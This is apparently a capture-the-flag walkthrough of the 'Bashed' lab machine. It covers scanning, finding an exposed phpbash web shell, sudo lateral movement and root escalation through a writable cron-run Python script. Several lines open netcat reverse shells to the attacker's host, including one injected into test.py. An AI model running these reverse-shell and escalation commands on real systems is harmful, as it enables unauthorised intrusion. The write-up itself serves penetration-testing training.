- Machine Name: Bashed
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Wed May  7 09:04:41 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received echo-reply ttl 63 (0.29s latency).
Scanned at 2025-05-07 09:04:42 IST for 117s
Not shown: 65275 closed tcp ports (reset), 259 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 09:06:39 2025 -- 1 IP address (1 host up) scanned in 117.61 seconds
```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port 80



let’s check the web technology using whatweb

```bash
whatweb http://10.10.10.68
```



let’s check the  directory and files fuzzing using gobuster

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



let’s navigate to /dev directory



we found interesting phpbash.php file google search reveals the →  https://github.com/Arrexel/phpbash

phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

let’s open the phpbash.php



let’s catch a reverse shell 

start netcat listener on port 443 and run `busybox nc 10.10.14.17 443 -e /bin/bash` in webshell



upgrade to TTY shell using

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
```

[user.t](http://user.tt)xt can be found at /home/arrexel/user.txt



there are two users on the system



after running sudo -l i found that we can run any command as scriptmanager without password using sudo



let’s run /bin/bash as scriptmanager to get shell as scriptmanager

```bash
sudo -u scriptmanager /bin/bash
```



i found interesting /scripts directory in `/` folder



there are two files in this folder, now if we look at the  file owner we found that [test.py](http://test.py) owned by scriptmanager means we can write it to it

and the test.txt is owned by root let’s see what both files contains 



so the [test.py](http://test.py) is writing testing 123 in test.txt so we can assume that script it executed by the root

to confirm this i check last modified time of the file and current system time



both matches mean file is modified every one minutes

let’s modify the [test.py](http://test.py) with following command

```bash
echo -e 'import os;os.system("busybox nc 10.10.14.17 445 -e /bin/bash");' > test.py
```



start netcat listener on port 445

wait for root to execute script

